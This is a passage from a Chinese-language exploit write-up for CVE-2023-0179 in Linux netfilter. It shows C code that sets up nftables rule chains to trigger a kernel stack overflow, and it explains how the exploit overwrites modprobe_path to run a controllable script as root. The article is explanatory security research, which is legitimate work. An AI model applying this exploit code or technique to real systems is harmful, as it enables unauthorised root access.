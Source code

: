 ```javascript
        struct nftnl_rule* r = build_rule(table_name, exp_chain_name, NFPROTO_BRIDGE, NULL);

        if (!i){
            rule_add_payload(r, NFT_PAYLOAD_LL_HEADER, 0x16, 0x40, 1, 0);
            char *cmp_str = MAGIC;
            rule_add_cmp(r, NFT_CMP_EQ, 1, cmp_str, 6);

            uint64_t stack_value = (stack << 16) | 0xffff;
            rule_add_payload(r, NFT_PAYLOAD_LL_HEADER, 20, 0x40, 1, 0);
            rule_add_cmp(r, NFT_CMP_EQ, 12, &stack_value, 8);
        }
        if (i == exp_chain_num - 1)
            rule_add_payload(r, NFT_PAYLOAD_LL_HEADER, 20, 0x40, 1, 0); // trigger
        else
            rule_add_immediate_verdict(r, NFT_JUMP, exp_chain_name_next);

        err = send_batch_request(
                nl,
                NFT_MSG_NEWRULE | (NFT_TYPE_RULE << 8),
                NLM_F_CREATE, NFPROTO_BRIDGE, (void**)&r, &seq,
                NULL
                );
        if (err) {
            puts(CLR_RED "[-] Set exp chain rule failed" CLR_RESET);
            perror("");
            exit(EXIT_FAILURE);
        }
    }
```

### 条件三：触发漏洞时内核上下文不确定

在recv接收数据时触发漏洞，所以不确定是在哪一个内核上下文中，栈溢出后也不能直接返回用户态。

不过多破坏栈上数据，在有限的栈空间内修改modprobe_path（在运行非ELF格式的二进制时，会以root权限调用该脚本）指向我们可控的脚本，最后调整rsp为上一层未破坏的栈帧，正常返回。

## 0x04 总结

netfilter子系统是一个相当复杂的系统，借助此文介绍了CVE-2023-0179的漏洞成因和漏洞利用过程中的一些注意点，希望能起到抛砖引玉的效果。
